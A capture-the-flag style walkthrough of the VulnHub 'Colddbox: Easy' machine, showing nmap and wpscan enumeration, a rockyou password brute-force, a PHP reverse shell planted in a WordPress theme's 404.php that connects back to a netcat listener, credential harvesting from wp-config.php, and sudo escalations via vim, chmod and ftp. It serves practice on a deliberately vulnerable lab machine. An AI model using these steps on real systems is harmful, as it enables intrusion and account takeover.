



# Vulnhub - Colddbox: Easy

Colddbox: Easy is a boot-to-root vulnerable machine. It is available to download from [VulnHub](https://www.vulnhub.com/entry/colddbox-easy,586/).

The machine's `ip` can be found using `netdiscover` or `nmap` can be used to assist in locating the machine's `ip`, as shown below as this machine's `ip` is not shown on the login screen.

```
❯ sudo nmap -T4 -sP 192.168.0.0/24                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 21:18 EDT
Nmap scan report for 192.168.0.1
...
Nmap scan report for 192.168.0.20
Host is up (0.00018s latency).                                       
MAC Address: 08:00:27:45:EF:63 (Oracle VirtualBox virtual NIC)
... 
Nmap done: 256 IP addresses (12 hosts up) scanned in 2.61 seconds
```

## Recon

We begin with an `nmap` scan to determine the open ports on the machine.

```
❯ sudo nmap -sV -sC -p- -T4 -oN colddboxeasy.nmap 192.168.0.20
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 21:20 EDT
Nmap scan report for 192.168.0.20
Host is up (0.00023s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
MAC Address: 08:00:27:45:EF:63 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.75 seconds
```

We have an open `port` on `80`, and another on `4512`. It is interesting to note that it appears that `ssh` is running on `4512`. `port` `80` appears to have `Apache 2.4.18` running, and seems to be an `Ubuntu` system. Browsing to `http://192.168.0.20` reveals a `wordpress` site. It also seems that there is a user that has commented on a post, `Sr Hott`.



Given that this is running a `wordpress` site, we can try to use `wpscan` to enumerate to try to find if there are any vulnerable plugins and themes, and to try to identify some users.

```
❯ wpscan --url http://192.168.0.20 -e ap,at,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|                 
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|                                                                                     

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.0.20/ [192.168.0.20]
[+] Started: Wed Nov  3 21:27:34 2021
...
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ...
 [+] Finished: Wed Nov  3 21:28:28 2021
[+] Requests Done: 23275
[+] Cached Requests: 17
[+] Data Sent: 5.944 MB
[+] Data Received: 3.489 MB
[+] Memory used: 315.48 MB
[+] Elapsed time: 00:00:53
```

It looks like we were able to find a few users: `the cold in person`, `hugo`, `c0ldd`, and `philip`. Armed with this, we can try to brute-force a login on the `wp-login.php` page.

```
❯ wpscan --url http://192.168.0.20 --usernames c0ldd,"the cold in person",hugo,philip --passwords /usr/share/wordlists/rockyou.txt
...
[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210    
Trying hugo / 292929 Time: 00:01:35 <                                                             > (8000 / 57378791)  0.01%  ETA: ??:??:??
```

Very quickly, we get a hit for `c0ldd`, showing his password to be `9876543210`. We will continue to let the brute-force to run, just in case we are able to get another account. In the mean time, we can go ahead and try to log into `wordpress`.



We were able to successfully log in to the `wordpress` dashboard. From here, we can check if we are able to edit the `wordpress` theme. If we are able to, we can upload a `reverse shell` to gain access to the system.

## User

At the dashboard, we use the navagation bar on the left to open up the theme editor. From here, we can select a `php` page to edit. If it successfully saves, then we can browse to the theme's page. This should allow us to gain a `remote shell` if successful.


Our plan is to upload a `php` `reverse shell` to replace one of the theme's pages. On a `Kali` system, we can find the template for the `reverse shell` by using the `locate` command, then we can `cp` it to our `home` directory for editing.

```
❯ locate php | grep reverse
/usr/share/webshells/php/php-reverse-shell.php
❯ cp /usr/share/webshells/php/php-reverse-shell.php .
```

And we will need to change the following lines to reflect where our `nc` listener will be.

```
$ip = '192.168.0.94';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
```

Afterwards, we can copy-paste the script into one of the theme pages. I chose `404.php`.



Now we just need to start a `nc` listener on our host and browse to the `404.php` page. This is located at `http://192.168.0.20/wp-content/themes/twentyfifteen/404.php`.

```
❯ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.0.94] from (UNKNOWN) [192.168.0.20] 39596
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:52:42 up 34 min,  0 users,  load average: 4.46, 4.04, 2.79
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

And we have gained a `reverse-shell` on the host! Now we need to upgrade our `shell` to a full `tty`. We can execute a `python` one-liner to get a better shell, then using some `magic` by pressing `ctrl-z` to background the shell, executing `stty raw -echo`, `fg`, pressing `enter` twice, then `export TERM=screen`, we can get a nice, full `tty`.

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ColddBox-Easy:/$ ^Z
[1]+  Stopped                 nc -lvnp 9001
kali@kali ~/Documents/colddboxeasy
❯ stty raw -echo
kali@kali ~/Documents/colddboxeasy
nc -lvnp 9001

www-data@ColddBox-Easy:/$ export TERM=screen
www-data@ColddBox-Easy:/$
```

We find that there is only one `home` directory, for the user `c0ldd`, and it contains `user.txt`, however we do not have the right permissions to `cat` the file.

```
www-data@ColddBox-Easy:/$ cd /home/c0ldd; ls -l
total 4
-rw-rw---- 1 c0ldd c0ldd 53 Sep 24  2020 user.txt
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt 
cat: user.txt: Permission denied
```

Knowing that this is a `wordpress` site, we can try to enumerate the `wp-config.php` file to see if we can grab the `mysql` password. From there, we can try to see if we can connect to `mysql` if it is running on `localhost`, or even try to `su` to c0ldd with the password.

```
www-data@ColddBox-Easy:/home/c0ldd$ cd /var/www/html/
www-data@ColddBox-Easy:/var/www/html$ grep -i passw wp-config.php 
/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```

We have a new password. Let's try to `su` as c0ldd now.

```
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd
Password: 
c0ldd@ColddBox-Easy:~$ cat ~/user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

It was successful, and we were able to `cat` `user.txt`. Interestingly enough, the flag is actually `base64` encoded. Let's see if this decodes to anything useful.

```
c0ldd@ColddBox-Easy:~$ cat ~/user.txt | base64 -d; echo
Felicidades, primer nivel conseguido!
```

And that translates to:

```
Congratulations, first level achieved!
```

Nice.

## Root

Since we have a working password, let's see if we can run `sudo`.

```
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Amazing! We have three different binaries that we can use to elevate our priveleges. [GTFOBins](https://gtfobins.github.io/) is an excellent source for researching how we can escalate priveleges using `sudo`.

Starting with `vim`, we can use it to launch a new `bash` shell.

```
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/vim -c ':!/bin/bash'
root@ColddBox-Easy:~# id; cat /root/root.txt
uid=0(root) gid=0(root) grupos=0(root)
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Using `chmod`, we can set `/bin/bash` with the `suid` bit.

```
c0ldd@ColddBox-Easy:~$ sudo /bin/chmod +s /bin/bash
c0ldd@ColddBox-Easy:~$ /bin/bash -p
bash-4.3# id; cat /root/root.txt
uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) egid=0(root) grupos=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(c0ldd)
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

And finally, with `ftp`, we should be able to break out of it to run a `bash` session as `root`.

```
c0ldd@ColddBox-Easy:~$ sudo ftp
ftp> !/bin/bash
root@ColddBox-Easy:~# id; cat /root/root.txt
uid=0(root) gid=0(root) grupos=0(root)
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

And, out of curiosity, let's decode that flag.

```
root@ColddBox-Easy:~# cat /root/root.txt | base64 -d; echo
¡Felicidades, máquina completada!
```

Which translates to:

```
Congratulations, machine completed!
```


